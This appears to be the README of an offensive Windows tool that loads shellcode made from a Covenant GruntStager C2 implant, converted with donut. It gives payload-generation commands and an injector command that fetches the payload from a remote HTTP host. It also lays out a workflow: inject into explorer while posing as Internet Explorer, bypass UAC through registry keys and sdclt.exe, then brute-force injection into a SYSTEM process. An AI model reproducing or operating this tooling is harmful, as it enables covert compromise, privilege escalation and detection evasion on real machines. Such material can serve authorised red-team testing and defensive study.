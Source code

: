 # Injector

Injects shellcode into memory, tries to bypass UAC, and automatically tries to escalate to system

## Credits
This project is built upon the sholders of Giants:

@_RastaMouse -> Their work on TikiTorch and shell injection formed the groundwork for how the injector operates

@Cobbr_IO -> For the SharpSploit and Covenant projects

@TheRealWover -> For the Donut library and project


## PayLoad Creation (ShellcodeCreate.py)
Installation:
``` pip3 install donut-shellcode ```

Flags:
```
python3 ShellcodeCreate.py -h                           
usage: ShellcodeCreate.py [-h] [-f FILENAME] [-o OUTPUT]

arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        input file
  -o OUTPUT, --output OUTPUT
                        output file
```
Step1: Download the relevant GruntStager binary from covenant
Step2: Generate Payload
```
python3 ShellcodeCreate.py -f GruntStager.exe -opayload.txt
```

## Injector.exe

```
Flags:
-w  <IP Address to Payload.txt>

-f <full path to payload.txt>

Injector.exe -f /path/to/payload.txt

Injector.exe -w http://10.10.10.123:8080/payload.txt
```

### Workflow
1. Identifies current user and injects payload under applicable explorer process (pretending to be iexplorer)
2. If user is local admin performs UAC bypass using Reg Keys and sdclt.exe
3. Attempts to bruteforce injection under System process (resulting in system level payload being exectued) (pretending to be iexplorer)


